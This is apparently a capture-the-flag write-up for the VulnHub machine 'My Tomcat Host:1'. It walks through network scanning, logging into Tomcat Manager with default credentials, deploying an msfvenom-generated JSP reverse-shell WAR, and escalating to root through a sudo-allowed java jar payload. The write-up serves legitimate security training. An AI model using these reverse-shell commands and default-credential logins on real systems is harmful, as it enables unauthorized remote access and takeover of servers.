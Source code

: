 # My Tomcat Host:1 - VulnHub

[My Tomcat Host:1 VulnHub link](https://www.vulnhub.com/entry/my-tomcat-host-1,457/)

## arp scan to find out our machine ip address on the network
![arp-scan](images/MyTomcatHost-1/arp-scan.png)

we found out our target ip address is 192.168.56.102

## Nmap:
first we need to check what ports and services are available for us in the target machine using nmap tool:
![nmap-scan](images/MyTomcatHost-1/nmap-scan.png)

**command exaplain:**

**nmap** - network scanner tool used to discover hosts and services on machines.

**-sC** - preforming script scan using default scripts.

**-sV** - preforming service version detection.

**-oA** - output in all formats.

**-Pn** - treating the host as online - skip host discovery (it was necessary for nmap scan on this machine).

it is recommanded to scan the machine at the background for all ports while enumerating the machine, becuase all ports scan found the same ports I wont show it.

from the nmap scan we discovered 2 ports are open:

*port 22* - ssh OpenSSH.

*port 8080* - http Apache Tomcat 9.0.31.

## Apache Tomcat:
if we browse to the the link:
 http://192.168.56.102:8080/

we got the Tomcat's welcome screen:
![tomcat-welcome-screen](images/MyTomcatHost-1/tomcat-welcome-screen.png)

if we try to enter the Manager App we get an authentication request:
![tomcat-auth-req](images/MyTomcatHost-1/tomcat-auth-req.png)

after searching the default username and password of tomcat version 9/8 on google this worked:

username: tomcat

password: tomcat

and we got in!
![tomcat-manager](images/MyTomcatHost-1/tomcat-manager.png)

now from the manager page we can uplaod new service applications to the server.

lets upload a java WAR file reverse shell to get a shell to the machine.

## Reverse shell:
first let's create a reverse shell in java to WAR file using msfvenom and run netcat listener on port 1234:
![reverse-shell-create](images/MyTomcatHost-1/reverse-shell-create.png)

**command explain:**

**msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.102 LPORT=1234 -f war > shell.war**

**msfvenom** - rapid7 (creators of metasploit tool) tool for payload generation.

**-p** - payload to use.

**LHOST** - attacker ip address.

**LPORT** - attacker ip port.

**-f** - output format.
generating payload into shell.war file.

**nc -lvp 1234**

**nc** - netcat, tcp and udp tool for connections and listens.

**-l** - listen for connections.

**-v** - verbose output.

**-p** - port number.

let's upload the war file into the tomcat website using the service war upload in the manager page:
![upload-war-file](images/MyTomcatHost-1/upload-war-file.png)

if we browse to the service url: http://192.168.56.102:8080/shell/

we got a shell!

let's get a normal shell using python pty:

![foothold-shell](images/MyTomcatHost-1/reverse-shell-foothold.png)

let's see our sudo allowed commands:
![sudo-commands](images/MyTomcatHost-1/sudo-commands.png)

we can run java as root!

lets use the same method we got the reverse shell to get a root access but this time we create a jar file.

we send the jar file to the target machine using python SimpleHTTPServer and wget in tmp folder ( we got write permissions), using metasploit to connect to the reverse shell:

**on the attacker machine:**
![reverse-shell-send](images/MyTomcatHost-1/create-shell-send.png)

**on the target machine:**

![wget-revershell](images/MyTomcatHost-1/wget.png)

**fire up metasploit and set up the exploit:**
![msf](images/MyTomcatHost-1/msf.png)

**run the jar file in th target machine:**

![run-jar](images/MyTomcatHost-1/run-jar.png)

**and we got root access!!**

![root](images/MyTomcatHost-1/root.png)

